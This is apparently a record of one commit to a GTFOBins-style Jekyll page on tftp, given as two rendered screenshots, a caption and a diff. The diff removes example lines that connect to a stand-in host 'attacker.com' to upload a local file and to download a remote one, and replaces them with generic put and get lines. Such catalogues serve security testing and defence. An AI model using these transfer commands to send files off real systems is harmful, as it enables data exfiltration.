

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/tftp.md, in a window 1280 px wide, cut to the strip 339-824 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update tftp.md

```diff
--- a/_gtfoud/tftp.md
+++ b/_gtfoud/tftp.md
@@ -3,13 +3,9 @@ functions:
   file-upload:
     - description: Send local file to a TFTP server.
       code: |
-        RHOST=attacker.com
-        tftp $RHOST
-        put file_to_send
+        put $LFILE
   file-download:
     - description: Fetch a remote file from a TFTP server.
       code: |
-        RHOST=attacker.com
-        tftp $RHOST
-        get file_to_get
+        get $RFILE
 ---
```
